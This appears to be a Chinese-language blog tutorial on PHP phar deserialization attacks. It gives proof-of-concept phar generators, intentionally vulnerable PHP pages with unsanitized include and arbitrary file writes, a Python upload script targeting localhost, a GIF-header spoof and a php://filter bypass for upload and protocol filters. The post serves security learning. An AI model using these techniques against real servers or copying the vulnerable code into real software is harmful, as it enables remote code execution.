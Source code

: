 ```yaml
---
title: 浅析phar反序列化
date: 2024-10-22 16:11:27
permalink: /pages/88a8e0/
categories:
  - web
tags:
  - php
  - phar
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# 浅析phar反序列化

## 定义

官方解释：什么是 phar？PHAR（PHP Archive）文件实际上是一种打包格式，用于将多个 PHP 文件和资源打包成一个文件。phar 归档的最佳特征是可以将多个文件组合成一个文件。phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。

可不可以这样认为？phar文件是一个移动U盘，php可以通过`phar://`协议直接访问和执行U盘中的文件？

可以使用任何 fopen() 相关函数，opendir() 和 mkdir() 相关函数在 phar 归档内读取、更改、创建新文件或目录

<!-- more -->

## 结构

phar文件本质是一种压缩文件


### stub （phar文件头）

前面xxx内容不限，但必须以`__HALT_COMPILER();`结尾，否则phar扩展无法识别这个phar文件

因为前面的内容不限，在遇到限制文件格式时可以通过stub伪造文件类型上传

```php
xxx<?php xxx; __HALT_COMPILER();?>
```

### manifest （元数据）

在这部分会将序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

### contents （压缩文件内容）

被压缩文件的内容，可以写入php代码，通过include()及phar协议进行文件包含或者phar协议具体到某个php文件直接执行

### signature （签名）

可选

## 利用

在`php.ini`修改配置，开启`phar.readonly`选项，取消前面的`;`注释

```plaintext
[Phar]
; http://php.net/phar.readonly
phar.readonly = On
```

利用前提

- 存在文件上传/文件读写
- 页面定义了类，且存在文件操作的函数

受影响函数列表[原文地址](https://paper.seebug.org/680/)

![1](/medias/stuphar/1.png)

本地简单尝试利用

phar.php生成phar文件

```php
<?php
highlight_file(__FILE__);
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = 'hello,phar';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "<?php phpinfo();?>"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

index.php通过phar协议实现文件包含

```php
<?php
highlight_file(__FILE__);
include$_GET['file'];
```

![3](/medias/stuphar/3.png)

文件操作触发的反序列化

通过写文件代替文件上传，使用file_get_contents()函数举例读取文件时触发`phar`反序列化

```php
<?php
highlight_file(__FILE__);
    class test{
    public $a;
    public function __destruct(){
        phpinfo();
    }
}
# 直接写文件代替文件上传
@file_put_contents($_POST['filename'],$_POST['content']);

$file = $_GET['file'];
@file_get_contents($file);
?>
```

生成phar文件

```php
<?php
highlight_file(__FILE__);
    class test {
        public $a;
    }
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new test();
    $o -> a='hacker';
    
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "aaa"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

题目使用file_put_contents()函数写入文件，直接复制`shell.phar`文件内容会失败

需要复制二进制内容，使用python读取、上传

```python
import requests

url = 'http://localhost/stuphar/'
data = {
    'filename':'a.phar',
    'content':open('shell.phar','rb').read(),
}
resp = requests.post(url,data=data)
print(resp.text)
```

上传后，使用phar协议读取phar文件，触发反序列化

![2](/medias/stuphar/2.png)

## 扩展名

php通过`stub`文件头识别phar文件，所以可以自由修改文件后缀名绕过

## 文件头绕过

`$phar->setStub("<?php __HALT_COMPILER(); ?>");`，这里`stub`的文件头存在操作空间，添加一些白名单文件头

```php
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
```

## 伪协议绕过

限制`phar://`协议开头时，通过其他协议绕回来

```php
include('php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt');
```

参考：

- [浅析phar反序列化](https://baozongwi.xyz/2024/09/05/%E6%B5%85%E6%9E%90phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)
- [phar反序列化](https://blog.foreverwl.top/archives/pharfxlh#heading-2)
- [Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://blog.zsxsoft.com/post/38)
- [通过Phar文件进行的反序列化攻击](https://chenlvtang.top/2021/03/20/%E9%80%9A%E8%BF%87Phar%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB/)